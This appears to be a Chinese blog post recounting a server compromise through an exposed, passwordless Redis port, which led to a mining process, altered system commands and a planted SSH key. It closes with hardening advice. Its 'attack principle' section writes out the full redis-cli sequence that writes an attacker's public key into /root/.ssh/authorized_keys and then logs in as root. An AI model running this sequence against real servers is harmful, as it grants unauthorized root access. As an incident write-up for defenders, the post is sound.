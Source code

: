 ```yaml
---
title: 记录一次服务器因Redis被攻击的案例
date: 2022-06-16 17:26:17
tags:
- redis
- 服务器安全
categories:
- 1933

---
```


## 背景
最近在开发开源项目Report Monitor时，后端使用到了Redis，为了方便本地调试直接连生产环境，将腾讯云服务器上的Redis端口6379对外开放了（同时没有设置口令和关闭了防火墙）。

<!--more-->
## 过程

### 收到提醒

在开放端口仅仅10分钟后，就收到了腾讯云的告警邮件：

![image.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/864e969c234d4711a92fa39525520d5b~tplv-k3u1fbpfcp-watermark.image?)

于是查看机器监控，发现CPU和内存都出现了占用率暴涨的情况，而且外网出包/入包量也是非常不正常，的确被人攻击了：

![image.png](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/ff76d409eee44dc4832d3fb89c0a4bf8~tplv-k3u1fbpfcp-watermark.image?)

### 排查进程


首先top一下看看有没有什么又问题的进程，进入top输入P可以按照cpu占用率排序。结果发现了一个这么个进程rshim，查了一下是肉鸡挖矿的病毒，现在这个端口是7295每当我kill他的时候，他就会在其他随机端口又开启：

![image.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/f0689b1457bf460fbb9c8fe582c732ed~tplv-k3u1fbpfcp-watermark.image?)

最后，直接进入到`/usr/sbin/rshim`，把内容全删，再也不重启了。

再来查看一下网络情况，程序肯定是把本机的一些数据往外面传了，结果发现这个家伙把我本地好多的命令全部都改了，气死我了，例如下面netstate命令把我的可执行权限给删了：

```
# 查看网络相关信息
netstat -aptn
sudo netstat -aptn

# 查看netstat命令在哪里
which netstat
whereis netstat

# 查看一下netstat程序的相关信息
ls -l /bin/netstat

```

结果提示netstat没有x权限（可执行权限），那就用chmod给它加下x权限，结果发现netstat不能赋值可执行权限，如下所示：

```
sudo chmod +x /bin/netstat
lsattr /bin/netstat
```
结果提示没有权限使用该命令：

![image.png](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/c3c732b88b5044d193cd0adda3de8b40~tplv-k3u1fbpfcp-watermark.image?)

解决方法就是使用chattr命令来更改，把其i属性去除，结果如下所示，chattr命令招不到：

![image.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/30b9ce2fc3cd479d8d70f5fb5b11c710~tplv-k3u1fbpfcp-watermark.image?)

原来这个病毒已经预知了你可能会用到的命令，所以直接把这些命令全部干掉了，暂时搁置。


### 排查违规用户

group查看一下目前登录的用户，目前只有我自己的root，没什么问题，在查一下这台服务器上所有的用户：

```
cat /etc/passwd |cut -f 1 -d :
```

发现一下多了一个叫做lsb的用户（老色皮？？），这个不是我创建的，进入`/home/lsb`下，`ls -la`查看一下隐藏文件，确实发现了猫腻：

![image.png](https://p6-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/eecb67da0f64426cbcc3e9e9ce50fc4c~tplv-k3u1fbpfcp-watermark.image?)

好家伙，直接拿到了我服务器的ssh权限，这就意味着可以直接登陆到我的服务器上操作了，好在时间不长，赶紧删掉：

```
rm -rf .ssh
userdel hilde
```

发现无法删除文件，说没有权限？然后删除用户的时候，还说不能打开这个文件：

![image.png](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/f7e3f921c2314ae39ab7f3f8735750c5~tplv-k3u1fbpfcp-watermark.image?)

发现这个权限中，有a权限，意思是在里面追加，不可删除文件的意思，最后还需要使用chattr命令，好家伙，又回到原点。


### 开始摆烂

经过上诉一顿操作，感觉我的服务器已经被污染了，但又不确定污染了哪些地方，直接备份自己/root目录下的文件，然后重新初始化服务器实例。


## 攻击原理

Redis 默认配置为6379端口无密码访问，如果Redis以root用户启动，攻击者可以通过公网直接连接Redis，向root账户写入SSH公钥文件，以此获取服务器权限注入病毒。

### 具体流程模拟

首先在本地生产公私钥文件：

```
$ssh-keygen –t rsa
```

![image.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/462eefad34b54fd5a2f73b70ea532787~tplv-k3u1fbpfcp-watermark.image?)

然后将公钥写入key.txt文件：

```
$ (echo -e "  "; cat id_rsa.pub; echo -e "  ") > foo.txt
```

再连接Redis写入文件：

```
$ cat key.txt | redis-cli -h 192.168.1.11 -x set crackit
$ redis-cli -h 192.168.1.11
$ 192.168.1.11:6379> config set dir /root/.ssh/
OK
$ 192.168.1.11:6379> config get dir
1) "dir"
2) "/root/.ssh"
$ 192.168.1.11:6379> config set dbfilename "authorized_keys"
OK
$ 192.168.1.11:6379> save
OK
```

Redis（只在root启动下）关键在利用了config个配置指令功能，传递了ssh的key。如果不是已root启动redis，可能只会被清除数据。

这样就可以成功的将自己的公钥写入/root/.ssh文件夹的authotrized_keys文件里，然后攻击者直接执行：

```
$ ssh –i  id_rsa root@192.168.1.11
```

即可远程利用自己的私钥登录该服务器。


## 总结

1. 一些重要的端口不要随便对外开放。
2. 如果迫不得已端口需要开放，请配置好相关密码，密码尽量不要太简单，要不然容易被暴力破解。
3. 如无必要，不要以root权限运行redis。Windows系统下不要以system权限运行。
